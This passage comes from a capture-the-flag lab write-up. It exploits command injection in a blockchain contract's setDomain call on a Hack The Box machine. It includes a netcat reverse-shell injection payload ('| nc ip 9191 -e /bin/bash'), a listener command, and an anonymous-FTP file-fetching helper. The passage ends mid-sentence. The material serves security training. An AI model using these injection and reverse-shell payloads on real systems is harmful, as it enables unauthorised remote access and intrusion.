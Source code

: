 To confirm our code is working, we will set our IP address as the domain value:

{% highlight python %}
url = contractInstance.functions.setDomain('{}'.format(ip)).transact()
{% endhighlight %}

And sure enough, a single ICMP request will appear in our `tcpdump`:

{% highlight console %}
$ tcpdump -i eth0 icmp
...
03:36:05.225134 IP 10.10.10.142 > 10.10.14.3: ICMP echo request, id 1, seq 96, length 40
03:36:05.225173 IP 10.10.14.3 > 10.10.10.142: ICMP echo reply, id 1, seq 96, length 40
...
{% endhighlight %}

This means that the software is most likely running a system command to `ping` once a retrieved value of the domain. Taking this fact into consideration, we can then inject arbitrary commands after the domain name through piping, such as using `netcat` (assuming it is installed in the box) to spawn a reverse shell:

{% highlight python %}
rl = contractInstance.functions.setDomain('hackthebox.eu | nc {} 9191 -e /bin/bash'.format(ip)).transact()

# Start netcat handler for reverse shell
subprocess.call(["nc -lvnp 9191"], shell=True, stderr=subprocess.STDOUT)
{% endhighlight %}

This will pop a shell as user _administrator_ in which no user flag is found, meaning that we need to continue with local enumeration.

Fully automated and formatted code for the exploit can be found in my <a href="https://gist.github.com/artikrh/b53ac84a65610084f7ddd8cd00546d0c">public gist</a>. As you may notice, the script also leverages `ftplib` to fetch the newly generated blockchain address each time the machine is reset; this is a detail quite a number of people had to learn the hard way:

{% highlight python %}
def getFiles():
	ftp = ftplib.FTP(TARGET_IP)
	ftp.login('anonymous', 'chainsaw')

	filenames = ftp.nlst()

	for filename in filenames:
		if os.path.exists(filename):
			os.remove(filename)
		file = open(filename, 'wb')
		ftp.retrbinary('RETR '+ filename, file.write)

		file.close()

	ftp.quit()
{% endhighlight %}

<u>Note</u>: You can also use the <a href="https://www.npmjs.com/package/web3">NodeJS Web3</a> or <a href="https://github.com/ethereum/go-ethereum/wiki/geth">geth</a> command line interface implemented in Go language to interact with the JSON RPC; the same result can be also achieved through `curl`:
